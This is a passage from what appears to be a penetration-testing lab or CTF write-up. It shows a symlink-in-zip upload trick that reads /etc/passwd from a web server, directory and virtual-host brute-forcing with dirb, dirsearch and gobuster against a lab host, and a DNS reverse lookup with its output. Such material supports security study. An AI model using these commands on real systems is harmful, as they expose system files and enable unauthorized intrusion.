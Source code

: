The following command creates a link to the file `../../../../../../etc/passwd` and names that link as `document.pdf`
```bash
$ ln -s ../../../../../../etc/passwd document.pdf
```

The next command creates a symlink zip that will be uploaded.
```bash
$ zip --symlinks doc.zip document.pdf
```

After uploading, the webpage provides the url of the file location.

By inspecting the Network exchange we get a base64 response (stored in `responsebase64characters`) that is then deciphered using the following:
```bash
$ echo responsebase64characters | base64 -d
```

### Brute-force enumeration of directories and files
This is a technique that uses known wordlists to brute-force for files and directories hosted in the webserver and that aren't directly accessible by the user from the previous webpage.

These are some commands that help do that:
```bash
$ dirb http://sowon.mold
```
```bash
$ dirsearch -u http://sowon.mold
```
```bash
$ gobuster dir -u http://sowon.mold -w /wordlists/Discovery/Web-Content/common.txt
```

We can also check for virtual hosts, which are directories and files that are hosted in virtual environments and have a different DNS subdomain:
```bash
$ gobuster vhost -u sowon.mold -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

## DNS
The first step is to execute a dig (Domain Information Groper) command to perform a lookup of the provided name servers or ip addresses and show the results.

```bash
$ dig -x 10.13.37.10 @10.13.37.10       

; <<>> DiG 9.19.17-1-Debian <<>> -x 10.13.37.10 @10.13.37.10
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 10141
;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;10.37.13.10.in-addr.arpa.      IN      PTR

;; AUTHORITY SECTION:
37.13.10.in-addr.arpa.  604800  IN      SOA     www.sowon.mold. sowon.mold. 3 604800 86400 2419200 604800

;; Query time: 23 msec
;; SERVER: 10.13.37.10##53(10.13.37.10) (UDP)
;; WHEN: Fri Jan 05 09:21:21 EST 2024
;; MSG SIZE  rcvd: 109
```